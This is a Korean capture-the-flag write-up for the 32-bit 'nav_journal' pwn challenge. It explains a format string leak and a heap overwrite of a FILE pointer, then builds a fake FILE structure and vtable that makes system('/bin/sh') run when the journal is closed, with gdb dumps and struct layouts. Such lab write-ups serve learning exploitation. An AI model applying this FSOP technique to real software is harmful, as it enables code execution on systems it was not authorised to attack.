nav_journal write up
---------------
pwn , 473pts

desc 
---------------

- FSB
- FSOP


files 
---------------

- challenge 
- libc.so.6(glibc 2.23->ubuntu 16.04)
- ld-2.23.so

checksec 
---------------
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
solution 
---------------
프로그램 실행 시 이름을 입력받고, 메뉴가 9개 나온다. 
```
Enter your name: aa
Hello, aa
------ Navigation Journal ------
1. Open main journal
2. Read main journal
3. Close main journal
4. Create sub journal
5. Write sub journal
6. Read sub journal
7. Close sub journal
8. Change username
9. Exit
```
이름은 전역변수 영역에 최대 0x54바이트만큼 입력받고, 마지막바이트는 0으로 초기화시킨다. 
파일 open시는 /tmp/journal.txt 을 열어서 파일 포인터는 전역변수 영역 nav_jr + 1536에 저장한다.
read시에는 nav_jr+1024영역에 파일의 내용을 0x200 바이트 만큼 읽어와 출력하고, close시에는 파일 포인터를 제거한다.

4번부터는 sub journal인데, create는 무작위 경로를 만들어 파일을 생성하고, 직접 이름을 입력할지 선택할 수 있다. 
이름을 입력할때 문제열이 특정 문자들과 일치하는지를 비교, 같으면 해당 문자열을 32로 바꾼다. 일종의 필터링 작업. 
이때 New File name이 출력되는 printf 문에서 fsb가 발생한다. 

5번은 파일에 0x604바이트만큼 내용을 쓰고, 6번은 같은 크기만큼 읽어와 출력한다. 
7번은 해당 파일포인터를 닫고, 8번은 시작할때 입력했던 username을 수정한다. 

5번의 내용대로면, 파일 포인터가 저장된 영역에 원하는내용대로 값을 쓰는것이 가능해지는데
해당 위치는 힙영역의 시작위치이고, 해당 위치에 입력값을 위해 0x610크기의 청크가 할당된다.
여기서 문제가 발생하는데, 입력값의 포인터 시작주소를 기준으로 385번째 배열위치에
위에서 만든 파일의 fopen결과, 즉 파일 포인터가 들어가게 된다.  385번쨰 배열위치는 385*4 = 0x604위치인데,
sub journal이 아닌 main journal을 close 할때는 384번쨰 배열위치를 참조한다. 
즉, 파일 내용을 입력할때 마지막 4바이트가 main journal의 파일 구조체 포인터 주소를 덮어쓰게 되는것. 
그렇게 되면 main을 close 할때 에러가 발생한다. 

그렇다면 입력값을 넣을때 해당 힙 위치에 가짜 파일구조체를 만든 다음, 
마지막 4바이트는 가짜 파일구조체가 만들어져 있는 힙의 주소를 넣어주는 식으로 FSOP를 유발할 수있겠다.

순서를 정리해보면, 4번의 create에서 FSB를 이용해 주소 leak -> 5번에서 FSOP 순.
fsb시 6바이트만 입력 가능하므로 여러번의 시도가 필요하다.
system 함수의 주소을 사용하기 위한 libc base와 fake vtable 구성을 위한 heap영역의 주소를 찾아야한다. 
libc는 5번쨰에서, heap은 12번째에서 각각 나온다.

이제 가짜 구조체를 만들어줘야 하는데, 32비트에서는 파일 구조체가 어떤식으로 구성되는지를 먼저 확인해보자.


```
gdb-peda$ x/40wx 0x09a0aa20                                                              
0x9a0aa20:      0xfbad2484      0x00000000      0x00000000      0x00000000
0x9a0aa30:      0x00000000      0x00000000      0x00000000      0x00000000
0x9a0aa40:      0x00000000      0x00000000      0x00000000      0x00000000
0x9a0aa50:      0x00000000      0x09a098b8      0x00000005      0x00000000
0x9a0aa60:      0x00000000      0x00000000      0x09a0aab8      0xffffffff
0x9a0aa70:      0xffffffff      0x00000000      0x09a0aac4      0x00000000
0x9a0aa80:      0x00000000      0x00000000      0x00000000      0x00000000
0x9a0aa90:      0x00000000      0x00000000      0x00000000      0x00000000
0x9a0aaa0:      0x00000000      0x00000000      0x00000000      0x00000000
0x9a0aab0:      0x00000000      0xf7744ac0      0x00000000      0x00000000
gdb-peda$ x/10wx 0xf7744ac0
0xf7744ac0 <_IO_file_jumps>:    0x00000000      0x00000000      0xf75fc980      0xf75fd3a0
0xf7744ad0 <_IO_file_jumps+16>: 0xf75fd140      0xf75fe220      0xf75ff0b0      0xf75fc5f0
0xf7744ae0 <_IO_file_jumps+32>: 0xf75fc200      0xf75fb4a0
gdb-peda$ x/3i 0xf75fc980
   0xf75fc980 <_IO_new_file_finish>:    push   ebx
   0xf75fc981 <_IO_new_file_finish+1>:  sub    esp,0x8
   0xf75fc984 <_IO_new_file_finish+4>:  mov    ebx,DWORD PTR [esp+0x10]
```

파일 구조체 시작주소 0x94위치에 vtable의 주소가 저장되고, vtable+0x8위치가 file_finish의 주소가 들어갈 곳이다.
파일 포인터 첫 위치에 있는 값이 __file__finish 함수의 인자값이 되어 들어가므로 해당 위치에는 "/bin/sh" 문자열이 들어가야 한다 .

```
"/bin/sh"                       0x00000000      0x00000000
0x00000000      0x00000000      0x00000000      0x00000000
0x00000000      0x00000000      0x00000000      0x00000000
0x00000000      0x00000000      0x00000000      0x00000000
0x00000000      0x00000000      유효한 주소     0xffffffff
0xffffffff      0x00000000      유효한 주소     0x00000000
0x00000000      0x00000000      0x00000000      0x00000000
0x00000000      0x00000000      0x00000000      0x00000000
0x00000000      0x00000000      0x00000000      0x00000000
0x00000000      heap+0xa0       0x00000000      0x00000000
0x00000000      0x00000000      system함수 주소 0x00000000 <- vtable 

```
이렇게 파일포인터+vtable 구조를 만들어보자.
실제로 어셈을 따라가보니, 예상했던 위치의 함수를 실행하지 않고 조금 더 멀리 있는 값을 참조했다.
```
   0xf7597917 <_IO_new_file_close_it+263>:      mov    eax,DWORD PTR [ebx+eax*1+0x94]
   0xf759791e <_IO_new_file_close_it+270>:      push   ebx
=> 0xf759791f <_IO_new_file_close_it+271>:      call   DWORD PTR [eax+0x44]
```
따라서 vtable 시작주소+0x44위치에 시스템함수의 주소값을 넣어주어야 하고, 중간에 함수 내부 연산으로 인해 
파일 포인터 주소값이 들어간 위치에 +1 연산이 가해지기 때문에 주소값을 넣을떄는 1을 뺀 값을 넣어주었다.

풀이 완료.












